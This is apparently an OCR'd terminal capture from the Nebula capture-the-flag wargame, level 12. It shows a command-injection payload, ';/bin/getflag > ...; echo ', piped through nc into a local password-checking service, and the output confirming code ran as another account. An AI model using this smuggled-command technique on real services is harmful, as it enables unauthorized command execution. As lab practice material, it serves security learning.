 level12@nebula:~$ echo "4754a4f4bd5787accd33de887b9250a0691dd198; echo 1" | nc localhost 50001
Password: Congrats, your token is 413**CARRIER LOST**

level12@nebula:~$ echo ";/bin/getflag > /home/flag12/flag12.out; echo " | nc localhost 50001
Password: Better luck next time
level12@nebula:~$ cat ../flag12/flag12.out
You have successfully executed getflag on a target account
level12@nebula:~$

